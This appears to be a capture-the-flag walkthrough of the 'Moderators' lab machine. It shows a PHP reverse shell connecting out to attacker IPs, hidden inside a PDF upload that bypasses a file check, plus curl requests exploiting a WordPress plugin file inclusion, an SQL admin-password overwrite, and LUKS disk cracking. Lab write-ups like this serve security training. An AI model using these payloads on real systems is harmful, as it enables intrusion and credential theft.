

# Moderators

Performing a **nmap** scan to discover open ports and services versions on the machine.



File scanning on port 80.


The blog has parameters with some reports, we can fuzz numbers to discover more reports.


The hash is the number of the report converted to MD5.


```jsx
echo -n "9798" | md5sum
e21cece511f43a5cb18d4932429915ed  -
echo -n "2589" | md5sum
743c41a921516b04afde48bb48e28ce6  -
echo -n "3478" | md5sum
b071cfa81605a94ad80cfa2bbc747448  -
echo -n "4221" | md5sum
74d90aafda34e6060f9e8433962d14fd  -
echo -n "7612" | md5sum
ce5d75028d92047a9ec617acb9c34ce6  -
echo -n "8121" | md5sum
afecc60f82be41c1b52f6705ec69e0f1  -
echo -n "81212" | md5sum
b1c7b1185d83e5e447a068f5a82db680  -
```

After some fuzzing, I discovered that the file extension is an PDF file:

```jsx
logs.pdf
```


Two files had written data:

```jsx
743c41a921516b04afde48bb48e28ce6
ce5d75028d92047a9ec617acb9c34ce6
```

On the PDF, we can see that there is a report PHP file used to uload log files.


Just PDF files can be uploaded.


With PDF headers we can bypass the file verification:


Requesting the file the phpinfo was executed.


Listing disabled functions:


We can create a PHP reverse shell into the PDF to gain remote code execution.

```jsx
'$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

The user of the reverse shell is www-data, we need to obtain the user Lexi.


Port 8080 has host a Wordpresss.


Plugins inside the Wordpress folder.


There is an exploit to the brandfolder plugin, but the null byte doesn’t work in this version of PHP, we need to find a way to bypass it.

[https://www.exploit-db.com/exploits/39591](https://www.exploit-db.com/exploits/39591)

We can create a file with the name to concatenate to the “wp-load.php”


Exploit code and description:


```jsx
curl http://127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wb_abspath=../../../../../../../dev/shm/testing
testingwp-load.php
```

Performing the request.


```jsx
curl http://127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=../../../../../../../dev/shm/test

$sock=fsockopen("10.10.14.96",3303);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

After obtain the reverse shell, I used the ID_RSA key to obtain SSH session.


Performing Wordpress port forwarding with SSH.


Generation of an PHPASSS password.


Updating the admin password of the Wordpress.

```jsx
UPDATE `wp_users` SET `user_pass` = '$P$BlDKgzCnaSGs6UCBnDcbOymitH./4s.' WHERE user_login = 'admin'
```


The admin password “zapzap” worked on the panel:


The accreditation on the panel worked.


We can look the John password:


Using the password of John in SSH we were able to obtain the session with the user.


The home folder of john has an interesting VDI file.


We transfer the file to our machine:


This VDI is encrypted, we need to find a way to decrypt the VDI File.


[https://github.com/axcheron/pyvboxdie-cracker](https://github.com/axcheron/pyvboxdie-cracker)

To crack the VDI file we can use the pyvboxdie-cracker with the rockyou wordlist:

```jsx
| perl -nle 'print if m{^[[:ascii:]]+$}'
```


Changing the VDI file to raw .img


Cracking the luks2 file:


[https://diverto.github.io/2019/11/18/Cracking-LUKS-passphrases](https://diverto.github.io/2019/11/18/Cracking-LUKS-passphrases)

[https://github.com/glv2/bruteforce-luks](https://github.com/glv2/bruteforce-luks)

[https://serverfault.com/questions/515085/how-to-mount-a-luks-encrypted-file](https://serverfault.com/questions/515085/how-to-mount-a-luks-encrypted-file)

Decrypted disk


The distro_update bash script file has the root password:

